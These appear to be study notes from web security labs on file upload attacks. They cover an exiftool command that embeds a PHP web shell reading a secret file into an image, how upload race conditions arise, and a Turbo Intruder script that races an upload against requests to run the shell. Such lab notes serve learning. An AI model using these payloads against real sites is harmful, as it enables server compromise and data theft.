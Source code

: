 ##### Remote code execution via polyglot web shell upload
we need to use `exiftool` to create a polyglot shell
=>
`sudo apt install libimage-exiftool-perl`
`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" REAL-IMG.png -o polyglot.php`
=>
This adds your PHP payload to the image's `Comment` field

- upload the ` polyglot.php` file
- then open the image in a new tab![[Pasted image 20240911093141.png]]

### Exploiting file upload race conditions
Modern frameworks:
- take precautions like uploading to a temporary, sandboxed directory
- and randomizing the name to avoid overwriting existing files
- then perform validation on this temporary file 
- only transfer it to its destination once it is deemed safe to do so
but:
developers sometimes -->   implement their own processing of file uploads 
                        independently of any framework
- Not only is this fairly complex to do well
- it can also introduce dangerous [race conditions](https://portswigger.net/web-security/race-conditions) 
	- that enable an attacker to completely bypass even the most robust validation

For example:
- some websites upload the file directly to the main FS 
- then remove it again if it doesn't pass validation
This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware.
=>
This may only take a few milliseconds
BUT:
for the short time that the file exists on the server -->  the attacker can potentially still 
                                               execute it

##### Web shell upload via race condition
- try to upload the shell php
- install the plugin Turbo Intruder in Burp
- you can't but open the packet in Burp > right click > Extension > Turbo Intruder > 
- Send to Turbo Intruder
- copy as payload python:
```python
def queueRequests(target, wordlists):
	engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)
	request1 = '''<YOUR-POST-REQUEST>''' 
	request2 = '''<YOUR-GET-REQUEST>''' 
	# the 'gate' argument blocks the final byte of each request until openGate is invoked
	engine.queue(request1, gate='race1') 
	for x in range(5): 
		engine.queue(request2, gate='race1') 
	# wait until every 'race1' tagged request is ready 
	# then send the final byte of each request 
	# (this method is non-blocking, just like queue) 
	engine.openGate('race1') 
	engine.complete(timeout=60) 
	
def handleResponse(req, interesting): 
	table.add(req)`
```
- change `<YOUR-POST-REQUEST>` with the entire `POST /my-account/avatar` request
  (copy all the request in the upper part of the Turbo Intruder tab)
- change `<YOUR-GET-REQUEST>` with a `GET` request for fetching your uploaded PHP file